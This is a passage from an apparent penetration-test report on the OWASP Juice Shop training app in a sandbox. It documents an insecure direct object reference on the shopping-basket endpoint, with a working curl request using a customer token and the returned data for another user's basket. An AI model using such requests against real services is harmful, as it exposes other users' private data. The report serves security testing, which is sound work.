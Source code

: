 **Proof of Impact:**
- **Cross-user data access** - customer account accessing admin and deluxe user profiles
- **Sensitive data exposed** including emails, roles, usernames, and deluxe tokens
- **Systematic vulnerability** affecting all user profiles in the system
- **No ownership validation** on user profile access

### AUTHZ-VULN-02: Shopping Basket Access (IDOR)

**Summary:**
- **Vulnerable location:** GET /rest/basket/:id endpoint
- **Overview:** Authenticated users can access any other user's shopping basket
- **Impact:** Financial data exposure including shopping preferences and basket contents
- **Severity:** High

**Prerequisites:**
Valid authentication token (any role)

**Exploitation Steps:**

1. Access another user's basket (Basket ID 1):
```bash
curl -s -i "http://juice-shop.sandbox.local:3001/rest/basket/1" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]"
```

2. Receive complete basket data:
```json
{
  "status": "success",
  "data": {
    "id": 1,
    "UserId": 1,
    "Products": [
      {
        "id": 1,
        "name": "Apple Juice (1000ml)",
        "price": 1.99,
        "BasketItem": {
          "ProductId": 1,
          "BasketId": 1,
          "quantity": 2
        }
      },
      {
        "id": 2,
        "name": "Orange Juice (1000ml)",
        "price": 2.99,
        "BasketItem": {
          "quantity": 3
        }
      }
    ]
  }
}
```
